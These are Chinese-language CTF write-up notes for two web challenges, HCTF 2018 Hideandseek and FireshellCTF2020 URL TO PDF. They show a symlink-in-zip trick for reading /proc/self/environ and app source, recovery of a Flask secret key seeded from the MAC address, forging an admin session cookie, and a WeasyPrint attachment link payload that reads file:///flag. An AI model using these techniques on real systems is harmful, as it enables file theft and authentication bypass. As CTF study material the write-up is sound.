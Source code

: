 
## [HCTF 2018]Hideandseek
关键词：软链接文件读取 session伪造 伪随机数
ln -s /proc/self/environ troye
zip -y troye.zip troye
读取的内容：

HOSTNAME=4ae8a62e14bc
SHLVL=1
PYTHON_PIP_VERSION=19.1.1
HOME=/root
GPG_KEY=0D96DF4D4110E5C43FBFB17F2D347EA6AA65421D
UWSGI_INI=/app/uwsgi.ini
WERKZEUG_SERVER_FD=3
NGINX_MAX_UPLOAD=0
UWSGI_PROCESSES=16STATIC_URL=/static_=/usr/local/bin/pythonUWSGI_CHEAPER=2
WERKZEUG_RUN_MAIN=true
NGINX_VERSION=1.15.8-1~
stretchPATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
NJS_VERSION=1.15.8.0.2.7-1~
stretchLANG=C.UTF-8
PYTHON_VERSION=3.6.8
NGINX_WORKER_PROCESSES=1LISTEN_PORT=80
STATIC_INDEX=0PWD=/app
PYTHONPATH=/app
STATIC_PATH=/app/static
FLAG=not_flag

无key，继续读取/app/uwsgi.ini
[uwsgi]
module = main
callable=app
logto = /tmp/hard_t0_guess_n9p2i5a6d1s_uwsgi.log

继续读取源码/app/main读不出来，看了wp可能是buu环境问题，这里应该显示/app/hard_t0_guess_n9f5a95b5ku9fg/hard_t0_guess_also_df45v48ytj9_main.py

所以读取/app/hard_t0_guess_n9f5a95b5ku9fg/hard_t0_guess_also_df45v48ytj9_main.py
部分代码：
random.seed(uuid.getnode())
app = Flask(__name__)
app.config['SECRET_KEY'] = str(random.random()*100)
显然是个伪随机数，百度uuid.getnode()得：on a machine with multiple network interfaces the MAC address of any one of them may be returned.（这个函数可以获取网卡mac地址并转换成十进制数返回）
/proc/net/arp查看连接到本机的远端ip的mac地址
/sys/class/net/eth0/address 查看eth0的mac地址（用这个）
得到02:42:ac:10:b7:0e
python3 flask_session_manager.py encode -s '61.372777952686' -t "{'username':'admin'}"

## [FireshellCTF2020]URL TO PDF
关键词：WeasyPrint
看上去是ssrf，但是输啥都是invalid url。
连一下自己服务器试试：User-Agent: WeasyPrint 51 (http://weasyprint.org/)
google 可以解析<link rel='attachment' href='file:///flag'>或<a rel='attachment' href='file:///flag'>
在自己vps上布置一个html即可。
